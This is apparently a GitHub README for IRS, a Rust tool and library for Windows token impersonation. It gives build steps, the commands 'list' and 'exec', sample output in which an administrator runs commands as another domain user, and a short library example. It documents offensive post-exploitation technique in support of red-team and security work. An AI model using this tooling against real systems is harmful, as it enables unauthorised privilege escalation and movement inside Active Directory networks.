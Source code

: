 # IRS (Impersonate-RS)

> 💡 IRS is a library version of [https://github.com/zblurx/impersonate-rs](https://github.com/zblurx/impersonate-rs), [zblurx](https://twitter.com/_zblurx)

Reimplementation of [Defte](https://twitter.com/Defte_) [Impersonate](https://github.com/sensepost/impersonate) in plain Rust. For more informations about it, see this [blogpost](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/).

## Summary

- [Build](#build)
- [Usage](#usage)
    - [List process to impersonate](#list)
    - [Exec command](#exec)
    - [Library example](#library)
- [Demo](#demo)

## Build

```bash
# Build it from docker
git clone https://github.com/zblurx/impersonate-rs
cd impersonate-rs
make release

# Or from cargo in your host
make windows

# Build documentation
cargo doc --open --no-deps

# More information
make help
```

## Usage

Like a static binary :

```cmd
X:\>irs.exe --help
IRS (Impersonate-RS) It's a windows token impersonation tool written in Rust. zblurx <https://twitter.com/_zblurx>

Usage: irs.exe <COMMAND>

Commands:
  list  List all process PID available to impersonate Tokens
  exec  Execute command line from impersonate PID
  help  Print this message or the help of the given subcommand(s)

Options:
  -h, --help  Print help
```

```bash
X:\>irs.exe exec --help
Execute command line from impersonate PID

Usage: irs.exe exec [OPTIONS] --pid <pid> --command <command>

Options:
  -p, --pid <pid>          PID to impersonate
  -c, --command <command>  Command to execute
  -v...                    Set the level of verbosity
  -h, --help               Print help
```

### `list`

The `list` command list processes, with their session id, token type and associated user.
```bash
X:\>irs.exe list
                  
[winlogon.exe                    ] [PROCESS: 624  ] [SESSION: 1 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[lsass.exe                       ] [PROCESS: 672  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 780  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[fontdrvhost.exe                 ] [PROCESS: 788  ] [SESSION: 0 ] [TYPE: Primary] [Low   ] [USER: Font Driver Host\UMFD-0     ]
[fontdrvhost.exe                 ] [PROCESS: 796  ] [SESSION: 1 ] [TYPE: Primary] [Low   ] [USER: Font Driver Host\UMFD-1     ]
[svchost.exe                     ] [PROCESS: 888  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE RÉSEAU  ]
[svchost.exe                     ] [PROCESS: 948  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[dwm.exe                         ] [PROCESS: 412  ] [SESSION: 1 ] [TYPE: Primary] [System] [USER: Window Manager\DWM-1        ]
[svchost.exe                     ] [PROCESS: 460  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 696  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
(...)
[svchost.exe                     ] [PROCESS: 836  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 908  ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1060 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1088 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\SERVICE LOCAL   ]
[svchost.exe                     ] [PROCESS: 1124 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
[svchost.exe                     ] [PROCESS: 1176 ] [SESSION: 0 ] [TYPE: Primary] [System] [USER: AUTORITE NT\Système         ]
```

### `exec`

The `exec` command open the target process id in the `pid` argument, duplicate its token and execute a command with the new token.

```cmd
X:\>whoami
adcs1\administrator

X:\>irs.exe exec --pid 5540 --command "whoami"
16 bytes read:
waza\e.cartman

X:\>irs.exe exec -p 5540 -c "whoami"
16 bytes read:
waza\e.cartman 
```

### `library`

Or directly on your **Rust** project like:

```Cargo.toml```:

```bash
[dependencies]
irs = { path = "/data/02-GIT/github/impersonate-rs/", version = "0.2.1" }
```

Or with github repo:

```bash
[dependencies]
irs = { git = "https://github.com/g0h4n/impersonate-rs", version = "0.2.1" }
```

```main.rs```:

```rust
use irs::utils::*;

fn main() {
    impersonate::se_priv_enable().expect("[!] Failed to run se_priv_enable()");
    token::enum_token().expect("[!] [!] Failed to run enum_token()");
}
```

To see all the available functions use the following command to open the **Rust documentation**.

```bash
cargo doc --open --no-deps
```

## Demo

![](./img/demo.gif)